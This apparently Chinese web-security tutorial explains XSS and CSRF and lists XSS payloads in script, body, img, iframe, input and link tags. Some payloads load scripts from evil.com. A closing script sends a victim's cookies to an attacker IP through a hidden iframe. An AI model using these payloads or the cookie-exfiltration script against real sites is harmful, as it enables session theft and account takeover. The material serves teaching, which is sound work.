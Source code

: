 ## 常见的攻击方式

一般来说，在web安全领域，常见的攻击方式大概有以下几种：

1. SQL注入攻击
2. 跨站脚本攻击-XSS
3. 跨站伪造请求攻击-CSRF
4. 文件上传漏洞攻击
5. 分布式拒绝服务攻击-DDOS



## CROSS-site Sripting（XSS）Attack

XSS是什么？它的全名是：Cross-site scripting，为了和CSS层叠样式表区分所以取名XSS。是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。这类攻击通常包含了HTML以及用户端脚本语言。



跨站脚本（XSS）是指客户端代码注入攻击，其中攻击者可以将恶意脚本（通常也称为恶意有效载荷）执行到合法的网站或Web应用程序中。XSS是Web应用程序漏洞中最猖獗的一种，当Web应用程序在其生成的输出中使用未验证或未编码的用户输入时，就会发生这种漏洞。

通过利用XSS，攻击者不直接针对受害者。相反，攻击者会利用受害者访问的网站或网络应用程序中的漏洞，从而将脆弱网站作为将恶意脚本传递给受害者的浏览器的工具。



## How Cross-site Scripting works

为了在受害者的浏览器中运行恶意的JavaScript代码，攻击者必须首先找到一种方法，将有效负载注入受害者访问的网页。当然，攻击者可以使用社会工程技术来说服用户使用注入的JavaScript有效载荷访问易受攻击的页面。



XSS攻击需要三个角色 - 网站，受害者和攻击者。在下面的例子中，应该假设攻击者的目标是通过窃取受害者的cookie来冒充受害者。将cookie发送到服务器可以通过各种方式实现攻击者控制，其中之一是攻击者可以通过XSS漏洞在受害者的浏览器中执行以下JavaScript代码



![](https://www.acunetix.com/wp-content/uploads/2012/10/how-xss-works-1024x454.png)



常见的攻击方式



`<script>`标签

```javascript
<!-- External script -->
<script src=http://evil.com/xss.js></script>
<!-- Embedded script -->
<script> alert("XSS"); </script>
```



`<body>`标签

```javascript
<!-- onload attribute -->
<body onload=alert("XSS")>
<!-- background attribute -->
<body background="javascript:alert("XSS")">
```



`<img>`标签

```javascript
<!-- <img> tag XSS -->
<img src="javascript:alert("XSS");">
<!--  tag XSS using lesser-known attributes -->
<img dynsrc="javascript:alert('XSS')">
<img lowsrc="javascript:alert('XSS')">
```



`<iframe>`标签 钓鱼攻击

```javascript
<!-- <iframe> tag XSS -->
<iframe src=”http://evil.com/xss.html”>
```



`<input>`标签

```javascript
<!-- <input> tag XSS -->
<input type="image" src="javascript:alert('XSS');">
```



`<link>`标签

```Javascript
<!-- <link> tag XSS -->
<link rel="stylesheet" href="javascript:alert('XSS');">
```



CSRF是什么呢？CSRF全名是Cross-site request forgery，是一种对网站的恶意利用，CSRF比XSS更具危险性。想要深入理解CSRF的攻击特性我们有必要了解一下网站session的工作原理。



我们知道http请求是无状态的，也就是说每次http请求都是独立的无关之前的操作的，但是每次http请求都会将本域下的所有cookie作为http请求头的一部分发送给服务端，所以服务端就根据请求中的cookie存放的sessionid去session对象中找到该会员资料了。
当然session的保存方法多种多样，可以保存在文件中，也可以内存里，考虑到分布式的横向扩展我们还是建议把它保存在第三方媒介中，比如redis或者mongodb。



那么XSS（跨站脚本）就是照瓢画葫了，用JavaScript写一个请求跨站的脚本就是XSS了，如下：



```Javascript
(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
```